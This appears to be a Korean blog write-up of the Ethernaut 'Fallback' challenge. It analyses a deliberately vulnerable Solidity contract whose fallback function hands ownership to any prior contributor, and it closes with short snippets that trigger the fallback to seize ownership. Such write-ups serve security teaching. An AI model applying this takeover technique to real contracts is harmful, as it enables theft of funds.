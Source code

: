 +++
title = "0x01. Fallback"
description = "Ethernaut"
date = 2023-07-12
toc = true

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "Ethereum"]

[extra]
math=true
+++

---
# 📄 코드 분석

```solidity
contract Fallback {
    using SafeMath for uint256;
    mapping(address => uint256) public contributions;
    address payable public owner;

    // 컨트랙트를 배포하는 순간, `owner` 는 `1000 eth`를 기여한 것으로 기록됨
    constructor() public {
        owner = payable(msg.sender); // Type issues must be payable address
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // `0.001` ether 이상을 함께 보내면, `contribution` 에 해당 금액을 더해서 기록해둠
    // 만약 `owner` 보다 더 많은 금액을 기여했다면 새로운 owner 가 됨
    function contribute() public payable {
        require(msg.value < 0.001 ether, "msg.value must be < 0.001"); // Add message with require
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = payable(msg.sender); // Type issues must be payable address
        }
    }

    // `contribution` 을 조회하는 함수
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // 컨트랙트에 존재하는 `eth`를 출금하는 함수
    // 오직 `owner`만 호출할 수 있음
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require
        owner = payable(msg.sender); // Type issues must be payable address
    }
}
```

---

# 💣 취약점
- `Fallback` 함수에서 `owner`를 변경하므로, `fallback`을 호출하기만 하면 문제를 풀 수 있음을 알 수 있습니다.
```solidity
    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require

        // owner 변경
        owner = payable(msg.sender); // Type issues must be payable address
    }
```
- [Solidity Docs](https://docs.soliditylang.org/en/v0.8.20/contracts.html#fallback-function)에 따르면, `Fallback`함수는 아래의 경우 호출할 수 있습니다.
> - <txtred>존재하지 않는 function</txtred>을 호출하는 경우
> - <txtylw>*receive*</txtylw> 함수가 없을 때, `eth`를 보내는 트랜잭션을 받은 경우
> - `msg.data`에 값이 존재하는 경우

- 따라서, 아래와 같은 방법으로 `fallback`을 호출할 수 있습니다.

```solidity
// 1. 잘못된 function signature 로 fallback 함수를 호출
bytes memory payload = abi.encodeWithSignature(
    "wrong_signature(uint256)",
    payable(address(ethernautFallback)),
    10 wei
);
payable(address(ethernautFallback)).call{value: 1 wei}(payload);

// 2. `ether` 를 보내는 트랜잭션으로 fallback 함수를 호출
payable(address(ethernautFallback)).call{value: 1 wei}("");
```

---
